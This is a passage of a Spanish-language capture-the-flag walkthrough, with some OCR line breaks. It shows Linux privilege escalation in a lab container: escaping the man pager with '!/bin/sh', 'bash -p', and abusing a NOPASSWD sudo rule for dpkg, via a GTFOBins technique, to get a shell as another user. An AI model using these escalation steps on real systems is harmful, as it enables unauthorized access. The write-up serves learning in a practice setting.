 ```

SYNOPSIS
       man [man options] [[section] page ...]
 ...
       man -k [apropos options] regexp ...
       man -K [man options] [section] term ..
.
       man -f [whatis options] page ...
       man -l [man options] file ...
       man -w|-W [man options] page ...

DESCRIPTION
       man  is  the system's manual pager.  Each page argument giv
en to man is
       normally the name of a program, utility or function.  The  manual 
 page
       associated with each of these arguments is then found and displayed.  A
       section,  if  provided, will direct man to look only in tha
       
!/bin/sh   <==== Escribimos esto al final, y el usuario cambia

$ whoami
pingu

$ 
```
Escribimos ahora "bash -p" y nos quedaria un prompt mas normal.
```
$ bash -p

pingu@2f0c6287c77b:/$ whoami 
pingu

pingu@2f0c6287c77b:/$
```
Ahora es momento de escribir de nuevo "sudo -l" a ver si hay algo interesante, y vemos que nos devuelve lo siguiente:
```
pingu@2f0c6287c77b:/$ sudo -l

Matching Defaults entries for pingu on 2f0c6287c77b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 2f0c6287c77b:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
    
pingu@2f0c6287c77b:/$
```
Buscamos entonces de nuevo en "https://gtfobins.github.io", o en mi caso, con "searchbins":
```
sudo dpkg -l
!/bin/sh
```
Escribimos entonces "sudo -u gladys /usr/bin/dpkg -l" y luego la otra parte "!/bin/sh":
```
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name                          Version                                 Archit
ecture Description
+++-=============================-=======================================-======
```
